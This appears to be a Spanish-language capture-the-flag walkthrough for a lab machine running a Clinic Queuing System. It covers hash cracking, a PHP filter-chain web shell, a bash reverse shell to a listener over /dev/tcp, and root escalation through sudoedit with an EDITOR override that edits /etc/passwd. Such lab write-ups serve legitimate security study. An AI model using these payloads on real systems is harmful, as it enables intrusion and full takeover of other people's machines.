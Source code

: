 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 

![image](https://github.com/user-attachments/assets/ceb080c3-198f-466f-aeb2-f36ca68675c2)

hacemos un gobuster y nos da algunos que son llamativos

![image](https://github.com/user-attachments/assets/6db3b8c6-b51c-4cfd-b77c-1d350db89b1f)

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico

![image](https://github.com/user-attachments/assets/008ad910-5b3d-4d83-ad24-c07126d5aaf7)

al /backup nos descargamos el zip y lo descomprimimos. nos da:

![image](https://github.com/user-attachments/assets/2f6d5bbe-ee79-48d9-869b-f85a7a42c6fe)

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![image](https://github.com/user-attachments/assets/feec5145-33e9-4e84-93c6-54fc19abe3f1)


utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 

![image](https://github.com/user-attachments/assets/f63b8c97-7470-4e27-87af-f8f4135137af)

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
![image](https://github.com/user-attachments/assets/baf96a99-91d2-4ac7-bdae-66322e792093)

 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel

![image](https://github.com/user-attachments/assets/85c0234e-5902-4120-a4b1-8bac02376020)

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 
![[filtro.png]]

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![[dockerlabs/dificil/queuemedic/codigo1.png]]

> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos
![[dockerlabs/dificil/queuemedic/codigo2.png]]


y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)
![[dockerlabs/dificil/queuemedic/codigo3.png]]

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos
![[dockerlabs/dificil/queuemedic/conexion.png]]

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro
![[jessica.png]]

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 
![[sudoedit.png]]

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 
![[dockerlabs/dificil/queuemedic/root1.png]]
![[pasos1.png]]
colocamos su root y somos root!
![[suroot.png]]
muchas gracias! 
